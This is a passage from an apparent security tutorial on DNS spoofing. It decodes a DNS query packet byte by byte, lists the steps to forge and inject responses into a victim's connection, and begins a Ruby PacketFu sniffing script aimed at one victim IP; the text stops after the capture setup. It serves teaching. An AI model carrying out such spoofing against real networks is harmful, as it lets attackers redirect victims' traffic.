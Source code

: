 | **Figure 1.** DNS query Payload |

Let's to anatomize our payload

```text
0000   e7 1d 01 00 00 01 00 00 00 00 00 00 07 74 77 69
0010   74 74 65 72 03 63 6f 6d 00 00 01 00 01
```

* The First 2 bytes is the **Transaction ID** and we don't care about it for now. \(Our case: `\xe7\x1d`\)
* The next 2 bytes is the **Flags**. \(We need: `\x01\x00` = \x10\)
* Furthermore, in **Queries** section which contains

```text
0000   07 74 77 69 74 74 65 72 03 63 6f 6d 00 00 01 00
0010   01
```

* The **Queries** starts at _13 byte_ of the payload.
  * The 13th byte specifies the length of the domain name _before_ the _very first dot_ \(without last dot com or whatever the top domain is\). \(Our case: `\x07`\) **Try:**`[%w{ 74 77 69 74 74 65 72 }.join].pack("H*")`
    * Notice The domain name of "twitter.com" equals `\x07` but "www.twitter.com" equals `\x03` the same consideration for subdomains
    * Each dot after first dot will be replaced with the length of the followed characters

      **e.g.** www.google.co.uk

      * First length \(**www**\)  =&gt; will be replaced with `\x03`
      * First dot\(**.google**\) =&gt; will be replaced with `\x06`
      * Second dot\(**.co**\)    =&gt; will be replaced with `\x02`
      * Third dot\(**.uk**\)     =&gt; will be replaced with `\x02`
  * The very end of the domain name string is terminated by a `\x00`.
  * The next 2 bytes refers to the **type of the query**. \(Our case: `\x00\x01`\)

**Now what?!**

* We need to start capturing/sniffing on specific interface
* We need to enable promiscuous mode on our interface
* We need to capture UDP packets on port 53 only
* We need parse/analyze the valid UDP packets only
* We need to make sure this packet is a DNS query
* We need to get the queried/requested domain
  * We need to know the domain length
  * We need to get the FQDN
* Build a DNS response
* Replace the requested domain with any domain we want
* Re inject the packet into victim connection and send

I'll divide our tasks then wrap it up in one script

```ruby
#!/usr/bin/env ruby
#
require 'packetfu'

include PacketFu

#
# * We need to start capturing/sniffing on specific interface
# * We need to enable promiscuous mode on our interface
# * We need to capture UDP packets on port 53 only
#
filter = "udp and port 53 and host " + "192.168.0.21"
capture = Capture.new(:iface => "wlan0",:start => true, :promisc => true, :filter => filter, :save => true)

# * We need to get the queried/requested domain
```